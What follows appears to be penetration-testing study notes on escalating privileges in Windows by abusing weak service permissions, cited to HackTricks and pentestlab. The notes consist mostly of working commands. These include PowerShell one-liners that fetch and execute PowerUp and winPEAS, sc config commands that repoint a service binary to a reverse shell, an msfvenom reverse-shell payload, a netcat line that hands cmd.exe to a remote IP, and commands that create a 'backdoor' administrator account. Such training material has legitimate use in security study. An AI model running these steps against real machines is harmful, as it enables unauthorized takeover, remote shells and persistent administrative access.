manual
1. Run winPEAS to check for service misconfigurations:
◇ AccessChk(old version for command line): https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip%22,%20%22$env:userprofile/desktop/Accesschk.zip
We can check for 'Everyone' ,'Authenticated Users', $env:username
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uwcqv 'Everyone' *";Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uwcqv 'Authenticated Users' *";Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uwcqv $env:username *";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";

We have to check for service with:
1> SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS
2> SERVICE_STOP and SERVICE_START
◇ PowerUp.ps1: with method Get-ModifiableService
Enumerates all services using Get-Service and uses Test-ServiceDaclPermission to test if the current user has rights to change the service configuration.
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ModifiableService

◇ WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

2. OPTIONAL: check permission of the vulnerable service in the subchapter permission of a service
3. Confirm what we have found:
◇ AccessChk(old version for command line):
In the example below we check daclsvc, the vulnerable service found before
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uwcqv $env:username daclsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";

4. Check the current configuration of the service
It need to run with the SYSTEM user permissions, to take advantage from it
C:\> sc qc [service]

5. Check the current status of the service
C:\> sc query [service]

6. Reconfigure the service, following we have these alternatives:
◇ to use our reverse shell executable:
C:\> sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

reverse.exe is a payload created with msfvenom
root@kali:/# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.147.139 LPORT=53 -f exe -o reverse.exe

◇ substitute with malicious executable
C:\> sc config [service name] binpath= "malicious executable path" #example: "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
◇ sc: add an Administrator account
C:\> sc config [service name] binpath= "net user admin password /add"
C:\> sc stop [service name]
C:\> sc start [service name]
C:\> sc config [service name] binpath= "net localgroup Administrators admin /add" #add user Admin to Administrators
C:\> sc stop [service name]
C:\> sc start [service name]
◇ powerup.ps1: add Administrator account
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Install-ServiceBinary -Name 'daclsvc' -Command “net user backdoor Password123! /add && timeout /t 5 && net localgroup Administrators backdoor /add”



6. Start a listener on Kali, and then start the service to trigger the exploit:
1) Listener on kali
root@kali:/# nc -nvlp 532) Start the service
▪ net
C:\> net start daclsvc
▪ sc
C:\> sc start <serviceName>
▪ Start-Service powershell cmdlet
PS> start-service -name <serviceName>
3) if we have used:
◇ a reverse shell

◇ an administrator account:
PS> net user
PS> net localgroup Administrators

Bibliography
• https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#modify-service-binary-path
• https://pentestlab.blog/2017/03/30/weak-service-permissions/
• https://sec-consult.com/blog/detail/what-unites-hp-philips-and-fujitsu-one-service-and-millions-of-vulnerable-devices/